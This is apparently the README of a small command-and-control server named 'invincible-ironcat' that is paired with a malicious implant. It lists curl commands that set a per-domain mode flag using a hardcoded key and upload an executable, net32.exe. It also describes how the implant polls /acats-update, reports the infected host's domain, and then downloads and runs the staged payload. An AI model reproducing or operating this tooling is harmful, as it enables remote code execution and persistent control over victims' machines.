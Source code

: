 The API's are keyed with the "invincibleironcat" key that must be in the header or there will be a different behavior.



## Create Domain Folder And Set Mode to 0
curl.exe -XPUT http://invincible-ironcat/mode -H "domain: test1" -H "mode: 0" -H "key: invincibleironcat" -v 


## Upload File
curl -X POST http://invincible-ironcat:/upload -F "file=@./net32.exe" -H "Content-Type: multipart/form-data" -H "Domain: test1" -H "Key: invincibleironcat"


## Update the Mode File to 1
curl.exe -XPUT http://invincible-ironcat/mode -H "domain: test1" -H "mode: 1" -H "key: invincibleironcat" -v 


## Malcious Implanted Code Behavior
Checks /acats-update api location with specific headers to validate it is indeed coming from the correct location.

The return is the contents of mode file in json. 0 or 1.

After the Mode is set to 1, the malicous code client reflects the Mode set to 1 in a head to same location /acats-update

When this is returned to the ironcat server, along with the domain from the environment variable on the infected device, the net32.exe file is downloaded from the folder named after the domain returned in the header, and then executes it.
